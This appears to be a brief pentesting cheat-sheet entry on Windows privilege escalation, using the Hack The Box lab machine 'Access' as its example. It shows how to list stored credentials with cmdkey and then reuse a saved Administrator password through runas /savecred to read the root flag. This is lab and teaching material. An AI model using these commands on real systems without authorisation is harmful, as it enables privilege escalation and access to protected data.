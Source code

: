 ## Runas

in simple terms - RUN a command AS someone else

Once on a shell

begin enumeration

`cmdkey /list

read stored credentials

```
C:\Users\security\Desktop>cmdkey /list

Currently stored credentials:

    Target: Domain:interactive=ACCESS\Administrator
                                                       Type: Domain Password
    User: ACCESS\Administrator
```

Take note we have access administrator and the domain password stored

with runas we can chain commands.

```
\Windows\System32\runas.exe /user:ACCESS\Administrator /savecred "C:\Windows\System32\cmd.exe /c <Enter commands>"
```

Example for HTB machine 'Access'
```
\Windows\System32\runas.exe /user:ACCESS\Administrator /savecred "C:\Windows\System32\cmd.exe /c TYPE C:\Users\Administrator\Desktop\root.txt > C:\Users\security\root.txt"
```

This works as the root creds are already stored in the system for us and we have permission to run as.